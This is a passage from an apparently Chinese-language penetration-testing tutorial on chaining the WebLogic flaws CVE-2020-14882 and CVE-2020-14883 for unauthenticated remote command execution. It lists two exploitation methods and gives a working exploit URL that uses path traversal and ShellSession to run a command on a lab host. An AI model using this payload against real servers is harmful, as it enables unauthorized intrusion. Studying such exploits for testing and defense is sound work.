 可以看到通过未授权访问的后台与正常登陆的后台相比，由于权限不足，缺少部署等功能，无法安装应用，所以也无法通过后台部署war包等方式直接获取权限。

### CVE-2020-14883

利用上述未授权访问 CVE-2020-14882 结合 CVE-2020-14883。CVE-2020-14883 允许后台任意用户通过HTTP协议执行任意命令。使用这两个漏洞组成的利用链，可通过一个 GET 请求在远程 Weblogic 服务器上以未授权的任意用户身份执行命令。

漏洞利用方法有两种：

1. 通过 `com.tangosol.coherence.mvel2.sh.ShellSession` 执行命令
2. 通过 `com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` 执行命令

???+ tip "方法一适用版本"

	这个利用方法只能在 Weblogic 12.2.1 以上版本利用，因为 10.3.6 并不存在 `com.tangosol.coherence.mvel2.sh.ShellSession` 类。

???+ tip "方法二适用版本"

	`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext` 是一种更为通杀的方法，最早在 CVE-2019-2725 被提出，对于所有 Weblogic 版本均有效。

#### 方法一：GET 请求(无回显方式)

直接访问如下 URL 即可利用 `com.tangosol.coherence.mvel2.sh.ShellSession` 执行命令：

```
http://192.168.10.10:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success');")
```

![](images/cve-2020-14882-4.png)
